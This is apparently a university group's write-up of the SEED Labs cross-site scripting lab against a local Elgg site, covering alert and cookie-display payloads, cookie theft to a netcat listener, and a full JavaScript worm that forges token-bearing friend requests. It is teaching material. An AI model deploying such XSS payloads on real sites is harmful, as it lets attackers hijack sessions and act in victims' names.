 # Setup
We start this lab by following the instructions in the guide:

Add the lines to the /etc/hosts file (actually, we only need to add 10.9.0.5 www.seed-server.com, as the rest are already there);
Setup the docker containers using the alias dcbuild and launch them using dcup.

# Lab Tasks

## 3.1 Preparation: Getting Familiar with the "HTTP Header Live" tool

In this preparatory task we just follow the instructions given in the Guidelines section 5.1.

## 3.2 Posting a malicious message to display an alert window

For this task, we chose to use the Samy profile. By pasting the suggested javascript code in the "brief description" field, as input is not sanitized, everytime any other user visits the profile, an alert pop-up will be displayed with the message "XSS". With this we can start to play around with the XSS attack and understand its foundations.

Using the following code in Samy's brief description field:

![picture 1](images/3dcd07650562573d5b9f75ad1a2286438f2f57b09eaf6153d336c356df288f96.png)  

When acessing Samy's profile while logged in as Alice:

![picture 2](images/418e198f33de4550fc93567ba2b5bbfcf711ac6b2ceecca75f06d6d67286b741.png)  

## 3.3 Posting a malicious message to display cookies

By changing the argument of the alert window that we created with the javascript of the last task, we can display important information about the site, user, session, etc. In this case, we change the message 'XSS' to __document.cookie__, which will result in the display of the cookies of the document in the pop-up alert.
However, only the user viewing the malicious profile will be prompted with this message.

Using the following code in Samy's brief description field:

![picture 3](images/9a9b3724b39556760283093abc98468a6d3780293f8cd40bba05ef83883178a7.png)  

When acessing Samy's profile while logged in as Alice:

![picture 4](images/b03767a84a6801e8e5da03b41793ad881c9a4d1cbd2b9eb138070b9e2bbd399f.png)  

## 3.4  Stealing cookies from the victim's machine

In this task, we go a step further and make the cookies be sent to the attacker, instead of only being displayed to the user.  To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request.

Using the following code in Samy's brief description field:

![picture 5](images/eadb3a07dfe4655396ed2fdaaede269a12545eea46b5e9bf6b097f1d50c764b1.png)  

Using the netcat command with the recommended options, we can listen for any requests made from users that visited our profile:

When we access Samy's profile while logged in as Alice, for example, we can see that the cookies are sent to us via the request:

![picture 6](images/9576c1dc98a20c942b2bb21842b85a3abc1f4e6de76ff9b125aa2e5fc68464f5.png)  

## 3.5  Becoming the victim's friend

In this task, our objective is to write a worm that adds Samy as a friend of any user that visits the malicious profile.

Our malicious javascript file must forge an HTTP request, so the first step is to add Samy as a user normally, and analyze the request that is sent, so we can later replicate it. To do this, we use the extension HTTP Header Live.

![picture 7](images/2b06a11604a974bccaae38b19d9e2ea3ee0e1b194367fb3dbf56304c90a9733f.png)  

The full request URLis: 
```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669477299&__elgg_token=N1grzJfcHfWAhbkLgzsmjw&__elgg_ts=1669477299&__elgg_token=N1grzJfcHfWAhbkLgzsmjw
````

Using this information, we can now write our worm in the file __friend_worm.js__:

```javascript
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="/action/friends/add?friend=59" + ts + token;
    
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
</script>
```

When we place this code in Samy's about me field, and access his profile while logged in as Alice, we can see that Samy is added as a friend of Alice:

![picture 8](images/888f5500d41b79bc6119563608c3540f98ae361737d207d997ecb35ab44847d1.png)  
![picture 9](images/10b5469a11b2310b8dd5b8128daa70beb167388c3c9ffa664c3167bf68749586.png)  
![picture 10](images/e7a9c15cf613e509bbec44cc7600287c97058b9f711e4890dfb37e8677e1ec6e.png)  
![picture 11](images/6ed8a3d7228eedb6d7ce8e47f7a5fbf3fb3477d28f32b213fbe6e8588e079fc5.png)  

__Questions:__

1. The numbered lines are used to authenticate the user when the request is made. The security tokens are unique to each user and are used to prevent other users to make requests in their name. Using this, our forged request will be accepted by the server.

2. No, if the application only provided the Editor mode for the "About me" field, an attack would not be successful, as the Editor mode filters and encodes any HTML special characters and tags - input sanitization. This way we are not able to inject our script into the profile page.


# Group 7, 26/11/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt

